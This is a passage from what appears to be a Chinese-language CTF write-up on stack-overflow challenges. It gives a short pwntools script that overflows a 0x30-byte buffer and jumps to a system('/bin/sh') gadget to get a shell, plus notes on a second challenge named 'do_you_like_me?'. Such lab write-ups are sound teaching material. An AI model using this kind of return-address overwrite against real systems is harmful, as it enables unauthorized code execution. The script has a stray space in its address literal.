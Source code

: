 
Buf的位置是rbp-30

Read读了0x40

所以可以栈溢出

from pwn import *

url = remote(“ip”,port);

system_adress = 0x 0000000000400735

payload = ‘a’*(0x30+8)+p64(system_adress)

url.sendline(payload)

url.interactive()

### 题目名称do_you_like_me?

### 操作内容：

![图片](img/ae12c28506d8b3b8ecfe7160919d54d0.png)

Buf [rbp-10]

Read0x64

又可以栈溢出

看下可不可以找system(“\bin\sh”)

![图片](img/15a58719f38624bf9208efd688037dd2.png)

Sub_4006CD使用过这个system
